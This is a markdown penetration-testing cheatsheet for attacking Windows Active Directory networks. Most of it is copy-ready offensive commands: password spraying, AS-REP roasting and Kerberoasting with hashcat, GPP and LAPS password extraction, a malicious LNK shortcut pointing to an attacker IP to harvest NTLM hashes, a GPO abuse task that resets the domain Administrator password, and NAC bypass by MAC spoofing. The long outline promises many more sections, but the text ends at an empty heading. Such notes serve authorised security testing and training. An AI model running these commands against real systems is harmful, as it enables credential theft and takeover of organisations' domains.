






# Internal Network Penetration Testing

- [Internal Network Penetration Testing](#internal-network-penetration-testing)
  - [Recon](#recon)
  - [Unauthenticated enumeration](#unauthenticated-enumeration)
  - [Unauthenticated User enumeration](#unauthenticated-user-enumeration)
      - [Finding DC IP](#finding-dc-ip)
      - [User enumeration via Kerberos](#user-enumeration-via-kerberos)
      - [User enumeration without kerberos](#user-enumeration-without-kerberos)
  - [First foothold](#first-foothold)
    - [NAC Bypass (802.1x)](#nac-bypass-8021x)
      - [802.1x EAP-TLS](#8021x-eap-tls)
      - [802.1x EAP-PEAP](#8021x-eap-peap)
      - [Misc techniques](#misc-techniques)
    - [Username == password](#username--password)
    - [SMB enumeration](#smb-enumeration)
    - [SMB Version 1](#smb-version-1)
    - [SMB Signing](#smb-signing)
    - [Unsupported operating systems](#unsupported-operating-systems)
    - [Checking NLA and other RDP issue](#checking-nla-and-other-rdp-issue)
    - [RPC / SMB null enumeration](#rpc--smb-null-enumeration)
    - [AS-Rep Roasting](#as-rep-roasting)
  - [Authenticated enumeration](#authenticated-enumeration)
    - [Domain policy using PowerView](#domain-policy-using-powerview)
    - [Getting password policy](#getting-password-policy)
    - [MISC Enumeration commands](#misc-enumeration-commands)
    - [Get Net session](#get-net-session)
    - [Review SMB Share rights](#review-smb-share-rights)
    - [Active Directory user and computer account description](#active-directory-user-and-computer-account-description)
    - [Resetting expired passwords remotely](#resetting-expired-passwords-remotely)
    - [PASSWD\_NOT\_REQD](#passwd_not_reqd)
    - [Machine Account Quota](#machine-account-quota)
    - [LAPS / LAPS bypass](#laps--laps-bypass)
    - [Admin Count](#admin-count)
    - [Checking GPP passwords](#checking-gpp-passwords)
    - [Checking GPP autologin](#checking-gpp-autologin)
    - [Checking share](#checking-share)
    - [Print spooler service](#print-spooler-service)
    - [Local admin brute force](#local-admin-brute-force)
    - [Pywerview recon tool](#pywerview-recon-tool)
    - [Recon/Enumeration using BloodHound](#reconenumeration-using-bloodhound)
    - [Expanding BloodHound](#expanding-bloodhound)
  - [Exploitation](#exploitation)
    - [Identifying Quick Wins](#identifying-quick-wins)
    - [adPeas](#adpeas)
    - [Password spray](#password-spray)
    - [LNK Files](#lnk-files)
    - [Potatoes Attacks](#potatoes-attacks)
      - [Ghost potato](#ghost-potato)
      - [Remote Potato](#remote-potato)
      - [Juicy Potato](#juicy-potato)
      - [Hot Potato](#hot-potato)
      - [Sweet Potato](#sweet-potato)
    - [RPC Misc](#rpc-misc)
        - [AD user password modification using rpcclient](#ad-user-password-modification-using-rpcclient)
        - [RPC password spraying](#rpc-password-spraying)
    - [Kerberoasting](#kerberoasting)
    - [Kerberos Bronze Bit](#kerberos-bronze-bit)
    - [Abusing Vulnerable GPO](#abusing-vulnerable-gpo)
    - [Abusing MS-SQL Service](#abusing-ms-sql-service)
    - [Relay attacks](#relay-attacks)
    - [Drop the MIC CVE-2019-1040](#drop-the-mic-cve-2019-1040)
    - [Exploiting ACL over GPO](#exploiting-acl-over-gpo)
    - [Insecure LDAP: LDAPS / Signing / Channel Binding](#insecure-ldap-ldaps--signing--channel-binding)
      - [LDAPS](#ldaps)
      - [LDAP Signing disable](#ldap-signing-disable)
      - [LDAP Channel Binding](#ldap-channel-binding)
    - [Unencrypted Protocols in use](#unencrypted-protocols-in-use)
      - [SMTP](#smtp)
      - [HTTP](#http)
      - [Telnet](#telnet)
      - [FTP](#ftp)
        - [LDAP](#ldap)
    - [SYSVOL / GPP](#sysvol--gpp)
        - [Metasploit Module](#metasploit-module)
        - [Metasploit Post-Module : Once you get shell on windows host](#metasploit-post-module--once-you-get-shell-on-windows-host)
        - [CrackMapExec Module 1 : gpp\_password](#crackmapexec-module-1--gpp_password)
        - [CrackMapExec Module 2: gpp\_autologin](#crackmapexec-module-2-gpp_autologin)
        - [Impacket Module](#impacket-module)
        - [Decrypt the found password manually](#decrypt-the-found-password-manually)
    - [LLMNR / NBT-NS / mDNS](#llmnr--nbt-ns--mdns)
      - [Responder + ntlmrelayx](#responder--ntlmrelayx)
    - [WPAD](#wpad)
    - [ACL / DACL Exploitation](#acl--dacl-exploitation)
        - [BloodyAD - AutoBloody](#bloodyad---autobloody)
        - [DACL Edit python script](#dacl-edit-python-script)
        - [ForceChangePassword](#forcechangepassword)
    - [MachineAccountQuota (MAQ)](#machineaccountquota-maq)
    - [Protected Users](#protected-users)
    - [PAC](#pac)
    - [ProxyLogon](#proxylogon)
    - [ProxyShell](#proxyshell)
    - [ProxyNotShell](#proxynotshell)
    - [ZeroLogon](#zerologon)
    - [PrintNightmare](#printnightmare)
      - [SpoolSample](#spoolsample)
      - [ShadowCoerce](#shadowcoerce)
      - [DFSCoerce](#dfscoerce)
      - [MultiCoerce](#multicoerce)
    - [Petitpotam](#petitpotam)
    - [samAccountName spoofing](#samaccountname-spoofing)
    - [MiTM - IPv6 + Relay](#mitm---ipv6--relay)
    - [Responder + Relay](#responder--relay)
    - [WSUS Exploitation](#wsus-exploitation)
      - [WSUS details](#wsus-details)
    - [LDAP Pass Back](#ldap-pass-back)
    - [SMTP Pass Back](#smtp-pass-back)
  - [Kerberos attacks](#kerberos-attacks)
    - [AS-Rep Roasting](#as-rep-roasting-1)
    - [Kerberoasting](#kerberoasting-1)
    - [Timeroasting / TrustRoasting / Computer Spraying](#timeroasting--trustroasting--computer-spraying)
    - [MS14-066](#ms14-066)
  - [Active Directory exploitation](#active-directory-exploitation)
    - [ZeroLogon](#zerologon-1)
    - [Exploiting ADCS](#exploiting-adcs)
    - [ADCS WebDav + NTLM relay to LDAP](#adcs-webdav--ntlm-relay-to-ldap)
    - [Exploiting machine accounts (WS01$)](#exploiting-machine-accounts-ws01)
    - [Over-Pass-The-hash](#over-pass-the-hash)
    - [Pass The ticket](#pass-the-ticket)
    - [Silver ticket](#silver-ticket)
    - [Kerberos Delegation](#kerberos-delegation)
      - [Exploiting RBCD : MachineAccountQuota](#exploiting-rbcd--machineaccountquota)
      - [Exploiting RBCD : WRITE Priv](#exploiting-rbcd--write-priv)
    - [From On-Premise to Azure](#from-on-premise-to-azure)
    - [Domain Trust](#domain-trust)
    - [Forest Trust](#forest-trust)
  - [Lateral movement](#lateral-movement)
  - [wmiexec](#wmiexec)
      - [Detection](#detection)
  - [smbexec](#smbexec)
      - [Detection](#detection-1)
  - [psexec](#psexec)
      - [Detection](#detection-2)
  - [atexec](#atexec)
      - [Detection](#detection-3)
  - [comexec](#comexec)
      - [Detection](#detection-4)
  - [Persistence](#persistence)
    - [Primary Group ID](#primary-group-id)
    - [Dropping SPN on admin accounts](#dropping-spn-on-admin-accounts)
      - [Persistence in AD environment](#persistence-in-ad-environment)
      - [Machine/Computer accounts](#machinecomputer-accounts)
      - [Machine/Computer accounts 2](#machinecomputer-accounts-2)
  - [Post-Exploitation](#post-exploitation)
    - [Computer accounts privesc](#computer-accounts-privesc)
    - [Active Directory NTDS : Clear Text passwords (Reversible encryption)](#active-directory-ntds--clear-text-passwords-reversible-encryption)
    - [DCSYNC](#dcsync)
    - [Accessing LSASS secrets](#accessing-lsass-secrets)
        - [Lsassy](#lsassy)
    - [Bring Your Own Domain Controller](#bring-your-own-domain-controller)
  - [Misc : AD Audit](#misc--ad-audit)
      - [WDigest](#wdigest)
      - [Passwords stored in LSA (LSA Storage)](#passwords-stored-in-lsa-lsa-storage)
      - [Abusing leaked handles to dump LSASS memory](#abusing-leaked-handles-to-dump-lsass-memory)
      - [LM password storage](#lm-password-storage)
      - [Storing passwords using reversible encryption](#storing-passwords-using-reversible-encryption)
      - [Inactive domain accounts](#inactive-domain-accounts)
      - [Privileged users with password reset overdue](#privileged-users-with-password-reset-overdue)
      - [Users with non-expiring passwords](#users-with-non-expiring-passwords)
      - [Service account within privileged groups](#service-account-within-privileged-groups)
      - [AdminCount on regular users](#admincount-on-regular-users)
  - [Data-Exfiltration](#data-exfiltration)
  - [Cracking Hashes](#cracking-hashes)
      - [LM hash](#lm-hash)
      - [NTLM hash](#ntlm-hash)
      - [Net-NTLMv1](#net-ntlmv1)
      - [Net-NTLMv2](#net-ntlmv2)
      - [AS-Rep Roast response (Kerberos 5 AS-REP etype 23)](#as-rep-roast-response-kerberos-5-as-rep-etype-23)
      - [Kerberoast (Service Ticket)](#kerberoast-service-ticket)
      - [Kerberos 5 TGS (AES128)](#kerberos-5-tgs-aes128)
      - [Kerberos 5 TGS (AES256)](#kerberos-5-tgs-aes256)
      - [MsCache 2 (DCC2)](#mscache-2-dcc2)
  - [Reporting / Collaborative](#reporting--collaborative)
    - [PlumHound](#plumhound)
    - [Pwndoc](#pwndoc)
    - [Password audit reporting](#password-audit-reporting)
  - [Defenses](#defenses)
    - [Restricted Admin Mode](#restricted-admin-mode)
    - [Windows Defender Antivirus](#windows-defender-antivirus)
    - [AppLocker](#applocker)
    - [Windows Defender Application Control (WDAC)](#windows-defender-application-control-wdac)
    - [Windows Defender Advanced Threat Protection (ATP)](#windows-defender-advanced-threat-protection-atp)
    - [Windows Defender : Exploit Guard](#windows-defender--exploit-guard)
    - [Windows Defender : Application Guard](#windows-defender--application-guard)
    - [Windows Defender : Device Guard](#windows-defender--device-guard)
    - [Windows Defender : Credential Guard](#windows-defender--credential-guard)
  - [Resources](#resources)
      - [Red Team Cheatsheet](#red-team-cheatsheet)
      - [OCD - AD Mind Map](#ocd---ad-mind-map)
      - [PetitPotam and ADCS](#petitpotam-and-adcs)
      - [Active Directory Exploitation cheatsheet](#active-directory-exploitation-cheatsheet)
      - [Attacking Active Directory](#attacking-active-directory)
      - [Kerberos Delegation](#kerberos-delegation-1)
      - [Exceptional blog posts regarding Windows Authentication/Credentials/RDP](#exceptional-blog-posts-regarding-windows-authenticationcredentialsrdp)
      - [Windows Logon Types](#windows-logon-types)
      - [Windows Name Pipes](#windows-name-pipes)
      - [COM / DCOM](#com--dcom)
      - [PowerShell Without PowerShell](#powershell-without-powershell)

## Recon

## Unauthenticated enumeration

```
whoami
systeminfo
hostname
whoami /priv
net users
net localgroup
findstr /spin "password"*.*
nslookup .
gpresult /R
set
echo %envar% (CMD)
$env:envar (PowerShell)
Get-WmiObject Win32_ComputerSystem
klist
klist tgt
```

PowerShelll port scan
```
PS C:\Users\lutzenfried> 0..65535 | % {echo ((New-object Net.Sockets.TcpClient).Connect("192.168.2.155",$_)) "Port $_ is open!"} 2> $null```
```

AD search GUI
Copy **dsquery.dll** from *C:\Windows\System32*
```
rundll32 dsquery.dll,OpenqueryWindow
```

## Unauthenticated User enumeration
#### Finding DC IP
```
nmcli dev show eth0

nslookup -type=SRV _ldap._tcp.dc._msdcs.<domainName>
nslookup -type=SRV _ldap._tcp.dc._msdcs.company.local
```

#### User enumeration via Kerberos
--> Require list of possible usernames:  
  - Non-existent account : ```KDC_ERR_C_PRINCIPAL_UNKNOWN```
  - A locked or disabled account : ```KDC_ERR_CLIENT_REVOKED```
  - A valid account : ```KDC_ERR_PREAUTH_REQUIRED```

#### User enumeration without kerberos
Use the **DsrGetDcNameEx2**,**CLDAP** ping and **NetBIOS MailSlot** ping methods respectively to establish if any of the usernames in a provided text file exist on a remote domain controller.  
- https://github.com/sensepost/UserEnum
- https://sensepost.com/blog/2018/a-new-look-at-null-sessions-and-user-enumeration/

## First foothold

### NAC Bypass (802.1x)
- https://github.com/s0lst1c3/silentbridge/wiki

NAC (Network Access Control) acts as a kind of a gatekeeper to the local network infrastructure. Its usually works with whitelists, blacklists, authentication requirements or host scanning to restrict access and keep unwanted devices out of the network.  

NAC can be setup using multiple measures:
- Filtering of MAC addresses
- Authentication with username & password
- Authentication with certificates
- Fingerprinting 
- Host checks

#### 802.1x EAP-TLS

#### 802.1x EAP-PEAP

#### Misc techniques
Sometimes trying different mac address such as MacOS device, Switch/Routers, Vmware VM can give you access or redirect you to specific VLAN without restriction.
- VMWARE VM : 00-0C-29-00-4B-3F
- Apple : F8:FF:C2:23:32:43

- https://www.thehacker.recipes/physical/networking/network-access-control

### Username == password
Using crackmapexec to test for password equal to username on domain contoso.com

```
for word in $(cat users.txt); do crackmapexec smb 10.10.0.10 -u $word -p $word -d contoso.com; done
```

### SMB enumeration
- smbclient
- smbmap

### SMB Version 1
```
crackmapexec smb all_ips.txt | grep -a "SMBv1:True" | cut -d " " -f 10
```

### SMB Signing
```
crackmapexec smb all_ips.txt | grep -a "signing:False" | cut -d " " -f 10
```

### Unsupported operating systems
```
crackmapexec smb all_ips.txt |  egrep -a "Windows 6.1|Server 2008|Server 2003|Windows 7|Server \(R\) 2008"
```

### Checking NLA and other RDP issue
rdp-sec-check is a Perl script to enumerate the different security settings of an remote destktop service (AKA Terminal Services)
- https://github.com/CiscoCXSecurity/rdp-sec-check

```
sudo cpan
cpan[1]> install Encoding::BER
rdp-sec-check.pl 10.0.0.93
```

### RPC / SMB null enumeration
```
rpcclient -U '' -N 10.10.0.10 -c "querygroupmem 0x200" |  cut -d '[' -f 2 | cut -d ']' -f 1
```
### AS-Rep Roasting
When a TGT request is made, the user must, by default, authenticate to the KDC in order for it to respond. Sometimes, this prior authentication is not requested for some accounts, allowing an attacker to abuse this configuration.

This configuration allows retrieving password hashes for users that have *Do not require Kerberos preauthentication* property selected:

- https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
```
python3 GetNPUsers.py COMPANY.LOCAL/ -usersfile /home/user/users.txt -request -dc-ip 192.168.0.10 -format hashcat
```

- https://github.com/GhostPack/Rubeus
```
Rubeus.exe asreproast /domain:COMPANY.LOCAL /dc:192.168.0.10 /format:hashcat /outfile:asrep-roast.hashes
hashcat -m 18200 'asrep-roast.hashes' -a 0 ./wordlists/rockyou.txt
```


## Authenticated enumeration

```
nltest /domain_trusts
nltest /trusted_domains
nltest /primary
nltest /sc_query:<domain>
nltest /dclist:<domain>
nltest /dsgetsite
nltest /whowill:<domain> <user>
```

### Domain policy using PowerView
```
Get-DomainPolicy
(Get-DomainPolicy)."System Access"
```

### Getting password policy
Get domain password policy using **ActiveDirectory** module. ([RSAT](https://4sysops.com/wiki/how-to-install-the-powershell-active-directory-module/))
```
Get-WindowsCapability -Name RSAT* -Online | Select-Object -Property DisplayName, State
Get-ADDefaultDomainPasswordPolicy
```

Get all domain fined grained password policy
```
Get-ADFinedGrainedPasswordPolicy -Filter *
```

Get password policy for specific user
```
Get-ADUserResultantPasswordPolicy -Identity john.doe
```

### MISC Enumeration commands
Recursive search for *Domain Admins* members
```
dsquery group -name "Domain Admins" | dsget group -expand -members
```

### Get Net session
```
Get-NetComputer | Get-NetSession
```

### Review SMB Share rights
- https://github.com/NetSPI/PowerHuntShares

```
Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\temp\test -Credentials domain\user
```

### Active Directory user and computer account description
Using crackmapexec to get active directory user description
```
crackmapexec ldap 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M get-desc-users
```

--> It is also extremely important to check for computer account description, as computer account are just AD object with description attribute.

### Resetting expired passwords remotely
- https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/

### PASSWD_NOT_REQD
If PASSWD_NOTREQD user-Account-Control Attribute Value bit is set then No password is required.  

1) First collect the information from the domain controller:
```
python ldapdomaindump.py -u example.com\\john -p pass123 -d ';' 10.100.20.1
```

2) Once the dumping is done, get the list of users with the PASSWD_NOTREQD flag using the following command:
```
grep PASSWD_NOTREQD domain_users.grep | grep -v ACCOUNT_DISABLED | awk -F ';' '{print $3}'
```

Reset password of users who have PASSWD_NOTREQD flag set and have never set a password:
```
Get-ADUser -Filter "useraccountcontrol -band 32" -Properties PasswordLastSet | Where-Object { $_.PasswordLastSet -eq $null } | select SamAccountName,Name,distinguishedname | Out-GridView
```

### Machine Account Quota
Identify machine account quota domain attribute:
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXXX:XXXXXXX -M MAQ --kdcHost corp.company.local
```

```
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

### LAPS / LAPS bypass
Retrieving LAPS passwords using Crackmapexec
```
crackmapexec ldap 192.168.0.10 -u jdoe -H XXXXX:XXXXX -M laps --kdcHost corp.company.local
```

### Admin Count
```
crackmapexec ldap company.com -u 'jdoe' -p 'Pass1234' -d company.com --admin-count
```

### Checking GPP passwords
- https://pentestlab.blog/tag/gpp/
Using crackmapexec GPP module
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_password
```

Using Impackets Get-GPPPassword.py
```
python3 Get-GPPPassword.py company.com/jdoe:Pass1234@10.10.0.10
```

Using Metasploit module
```
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set rhosts 192.168.0.10
msf auxiliary(smb_enum_gpp) > set smbuser jdoe
msf auxiliary(smb_enum_gpp) > set smbpass Pass1234
msf auxiliary(smb_enum_gpp) > exploit
```

### Checking GPP autologin
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com -M gpp_autologin
```

### Checking share
Checking share access rights with domain user
```
crackmapexec smb 10.10.0.10 -u jdoe -p Pass1234 -d company.com --shares
```

Complete review of network share permissions.  
--> [Powerhuntshare](https://github.com/NetSPI/Powerhuntshares) can be run from domain or non domain joined machine.

- https://www.netspi.com/blog/technical/network-penetration-testing/network-share-permissions-powerhuntshares/

Running Powerhuntshare from domain joined machine.
```
Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\temp\test
```

### Print spooler service
Checking if print spooler service is enable using impacket RPCDUMP or crackmapexec (used RPCDUMP but can be used to scan on large range)
```
python3 rpcdump.py company.com/jdoe:Pass1234@10.10.0.10 | grep 'MS-RPRN\|MS-PAR'
crackmapexec smb rangeIP.txt -u jdoe -p Pass1234 -d company.com -M spooler | grep Spooler
```


### Local admin brute force
- https://github.com/InfosecMatter/Minimalistic-offensive-security-tools/blob/master/localbrute.ps1 (a améliorer)

### Pywerview recon tool
PowerView's functionalities in Python, using the wonderful impacket library.
- https://github.com/the-useless-one/pywerview

```
python pywerview.py get-netuser -w company.local -u jdoe --dc-ip 192.168.0.10 --username jdoe
```

### Recon/Enumeration using BloodHound
```
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

### Expanding BloodHound
- https://github.com/hausec/Bloodhound-Custom-Queries
- https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/
- https://www.trustedsec.com/blog/expanding-the-hound-introducing-plaintext-field-to-compromised-accounts/
- https://neo4j.com/docs/api/python-driver/current/


## Exploitation

### Identifying Quick Wins
- Tomcat
- JavaRMI
- WebLogic
- Jboss

```
nmap -p 8080,1098,1099,1050,8000,8888,8008,37471,40259,9010,7001 -iL ips.txt -oN tomcat_rmi_jboss.txt -sV
```

### adPeas
- https://github.com/61106960/adPEAS

### Password spray
- https://github.com/Greenwolf/Spray/blob/master/spray.sh

Spraying 3 password attempt for each user every 15 minutes without attempting password=username  
```
spray.sh -smb 192.168.0.10 users.txt seasons.txt 3 15 corp.company.local NOUSERUSER
```

- https://github.com/ShutdownRepo/smartbrute

### LNK Files
If you get access to a share we can create a malicious .LNK file. This .LNK file will includes a refernece to the attacker computers.
You can after choose to Relay the *NetNTLM* hash or crack it.

- https://github.com/Plazmaz/LNKUp
Use --execute to specify a command to run when the shortcut is double clicked 
```
lnkup.py --host attackerIP --type ntlm --output out.lnk --execute "shutdown /s"
```

Using PowerShell
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\<attackerIP>\@file.txt"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "LNK file"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### Potatoes Attacks
#### Ghost potato
https://shenaniganslabs.io/files/impacket-ghostpotato.zip

#### Remote Potato
https://github.com/antonioCoco/RemotePotato0/

#### Juicy Potato
https://medium.com/r3d-buck3t/impersonating-privileges-with-juicy-potato-e5896b20d505

#### Hot Potato
https://pentestlab.blog/2017/04/13/hot-potato/

#### Sweet Potato
https://www.pentestpartners.com/security-blog/sweetpotato-service-to-system/


https://www.ctfnote.com/red-teaming/privilege-escalation/windows-privilege-escalation/token-impersonation-and-potato-attacks

### RPC Misc
##### AD user password modification using rpcclient  

```
user@host # rpcclient -U supportAccount //192.168.0.100
[...] authenticate using the supportAccount password which needs to be modified
rpcclient $> setuserinfo2 supportAccount 23 SuperNewPassword22
```

--> Note : If package passing-the-hash is installed on attacker machine, you can even do this with just a NTLM hash. (Flag : --pw-nt-hash)

##### RPC password spraying

```
while read x; do echo $x; rpcclient -U “DOMAIN/$x%PasswOrd123” -c “getusername;quit” 192.168.0.110; done < ./userlist.txt

Using bash script:
#/bin/bash
for u in 'cat dom_users.txt'
do echo -n "[*] user: $u" && rpcclient -U "$u%password" -c "getusername;quit" 10.10.10.192
done
```

### Kerberoasting
Service Principal Names (SPN's) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service).  

The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

```
GetUserSPNs.py -request -dc-ip 192.168.1.10 COMPANY.LOCAL/jdoe:PasswordJdoe123 -outputfile hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```


--> To protect against this attack, we must avoid having *SPN* on user accounts, in favor of machine accounts.  
--> If it is necessary, we should use Microsoft’s Managed Service Accounts (MSA) feature, ensuring that the account password is robust and changed regularly and automatically

### Kerberos Bronze Bit
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-overview/
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-attack/

### Abusing Vulnerable GPO
```
\SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author DOMAIN\<USER> --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" --GPOName "ADDITIONAL DC CONFIGURATION"
```

### Abusing MS-SQL Service
- https://www.offsec-journey.com/post/attacking-ms-sql-servers
- https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

```
. ./PowerUPSQL.ps1
Get-SQLInstanceLocal -Verbose
(Get-SQLServerLinkCrawl -Verbose -Instance "10.10.10.20" -Query 'select * from master..sysservers').customquery 

Import-Module .\powercat.ps1 powercat -l -v -p 443 -t 10000
```

### Relay attacks


### Drop the MIC CVE-2019-1040
- https://securityboulevard.com/2019/06/drop-the-mic-cve-2019-1040/

### Exploiting ACL over GPO
- https://github.com/Group3r/Group3rhttps://github.com/Group3r/Group3r

### Insecure LDAP: LDAPS / Signing / Channel Binding 
Insecure LDAP traffic can exposed clients to multiple vulnerabilities and exploitation path such as:
- Unencrypted LDAP (LDAPS) : Credential and authentication interception (port TCP-UDP/389)
- LDAP Signing disable : LDAP Relay attack (such as SMB Relay but using LDAP)
- LDAP Channel Binding : 

#### LDAPS
Domain controllers and clients are in constant exchange and use the LDAP protocol, which communicates via port 389 (TCP and UDP).

In case a customer use LDAP (389) instead of LDAPS (636) you will be able to intercept authentication and credentials.

Why LDAPS is not deployed everywhere:
- Not all devices are compatible with it (Old telephone systems or legacy applications)
- Small

*Note:* If SSL is used you can try to make MITM offering a false certificate, if the user accepts it, you are able to *Downgrade the authentication method* and see the credentials again.

#### LDAP Signing disable
